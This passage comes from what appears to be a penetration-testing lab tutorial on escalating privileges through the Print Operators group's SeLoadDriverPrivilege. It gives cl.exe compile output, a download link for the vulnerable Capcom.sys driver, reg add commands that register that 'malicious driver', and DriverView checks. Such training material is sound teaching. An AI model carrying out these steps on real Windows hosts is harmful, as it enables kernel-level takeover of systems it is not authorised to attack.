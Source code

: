 Next, from a Visual Studio 2019 Developer Command Prompt, compile it using **cl.exe**.

#### Compile with cl.exe

```cmd-session
C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp

Microsoft (R) C/C++ Optimizing Compiler Version 19.28.29913 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

EnableSeLoadDriverPrivilege.cpp
Microsoft (R) Incremental Linker Version 14.28.29913.0
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:EnableSeLoadDriverPrivilege.exe
EnableSeLoadDriverPrivilege.obj
```

#### Add Reference to Driver

Next, download the `Capcom.sys` driver from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys), and save it to `C:\temp`. Issue the commands below to add a reference to this driver under our HKEY_CURRENT_USER tree.

```cmd-session
C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

The operation completed successfully.


C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

The operation completed successfully.
```

The odd syntax `\??\` used to reference our malicious driver's ImagePath is an [NT Object Path](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/c1550f98-a1ce-426a-9991-7509e7c3787c). The Win32 API will parse and resolve this path to properly locate and load our malicious driver.

#### Verify Driver is not Loaded

Using Nirsoft's [DriverView.exe](http://www.nirsoft.net/utils/driverview.html), we can verify that the Capcom.sys driver is not loaded.

Print Operators

```powershell-session
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```

#### Verify Privilege is Enabled

Run the `EnableSeLoadDriverPrivilege.exe` binary.
